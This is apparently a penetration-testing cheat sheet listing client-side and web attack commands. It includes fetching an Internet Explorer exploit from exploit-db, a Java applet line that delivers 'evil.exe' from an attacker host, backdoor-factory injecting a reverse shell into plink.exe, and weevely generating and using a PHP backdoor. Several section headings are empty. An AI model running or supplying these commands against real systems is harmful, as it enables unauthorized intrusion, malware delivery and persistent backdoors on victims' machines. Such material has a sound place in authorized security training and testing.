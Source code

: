 -   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start

    -   JAVA Signed Jar client side attack  
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html  
        User must hit run on the popup that occurs.

    -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

    -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        ls -l /usr/share/webshells/

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
